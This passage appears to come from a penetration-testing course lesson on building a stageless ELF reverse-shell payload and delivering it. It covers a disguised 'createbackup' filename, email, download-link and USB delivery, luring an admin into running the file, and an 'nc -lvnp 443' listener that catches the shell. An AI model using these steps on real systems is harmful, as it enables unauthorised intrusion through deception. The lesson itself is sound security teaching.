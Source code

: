 ```shell
-f elf

```

The `-f` flag specifies the format the generated binary will be in. In this case, it will be an [.elf file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).

#### Output

```shell
> createbackup.elf

```

Creates the .elf binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.

* * *

## Executing a Stageless Payload

At this point, we have the payload created on our attack box. We would now need to develop a way to get that payload onto the target system. There are countless ways this can be done. Here are just some of the common ways:

- Email message with the file attached.
- Download link on a website.
- Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
- Via flash drive as part of an onsite penetration test.

Once the file is on that system, it will also need to be executed.

Imagine for a moment: the target machine is an Ubuntu box that an IT admin uses to manage network devices (hosting configuration scripts, accessing routers & switches, etc.). We could get them to click the file in an email we sent because they were carelessly using this system as if it was a personal computer or workstation.

#### Ubuntu Payload

![image](https://academy.hackthebox.com/storage/modules/115/ubuntupayload.png)

We would have a listener ready to catch the connection on the attack box side upon successful execution.

#### NC Connection

```shell
sudo nc -lvnp 443

```

When the file is executed, we see that we have caught a shell.

#### Connection Established
